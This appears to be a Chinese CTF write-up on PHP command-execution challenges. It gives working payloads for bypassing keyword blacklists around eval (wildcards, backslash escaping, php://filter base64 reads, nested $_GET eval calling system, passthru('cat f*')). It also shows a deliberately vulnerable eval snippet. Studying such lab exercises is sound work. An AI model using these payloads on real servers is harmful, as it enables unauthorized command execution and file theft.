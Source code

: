 ```

eg：
[a-z]表示任何小写字母
a*会匹配所有内容，因为a可以出现0次
o{2,}不匹配Bob中o，匹配foooooood中所有的o
```



##### 方法二：

```
1.通配符fla?绕过flag检测

2.c=echo `nl fl\ag.php`;//转义字符绕过

3.通过变量赋值直接绕过c的过滤 这个后面会经常用到，到时候再细讲
c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php

4.c=eval($_GET[1]);&1=system('nl flag.php');

```

------

#### web30

```php
 <?php


error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

**payload**

```
?c=passthru("cat f*");
```

![image-20231216114229789](image/image-20231216114229789.png)
